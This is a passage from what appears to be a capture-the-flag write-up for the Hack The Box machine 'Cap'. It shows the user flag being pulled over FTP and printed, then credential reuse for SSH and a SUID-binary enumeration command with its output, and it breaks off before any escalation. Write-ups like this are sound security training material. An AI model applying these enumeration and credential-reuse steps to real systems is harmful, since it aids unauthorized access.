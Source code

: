 ```console
-rw-rw-r--    1 1001     1001        10240 Jul 17 10:30 lpc.tar
-rw-rw-r--    1 1001     1001            0 Jul 17 10:30 lpc.txt
-rwxr-xr-x    1 1001     1001        37909 Jul 07  2020 lse.sh
-rw-rw-r--    1 1001     1001       136262 Jul 17 10:29 lse.txt
-rwxrwxr-x    1 1001     1001        46632 Jul 18 13:34 mm.sh
-rw-rw-r--    1 1001     1001       358400 Jul 17 10:30 privesc.tar
drwxr-xr-x    3 1001     1001         4096 Jul 17 10:27 snap
-rwsrwxrwx    1 1001     1001           10 Jul 17 11:08 test.sh
-r--------    1 1001     1001           33 Jul 17 10:01 user.txt
226 Directory send OK.
ftp> cat user.txt
?Invalid command
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (287.7372 kB/s)
ftp> exit
221 Goodbye.

┌──(kali㉿kali)-[~/HTB/Cap]
└─$ cat user.txt
fa4fb308e7486ab7ece2b4f2843c7480
```
## Root solution
The same credentials are also used for ssh.

After logging in through ssh I checked for SUID executables.
```console
nathan@cap:/$ find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/1997/bin/mount
```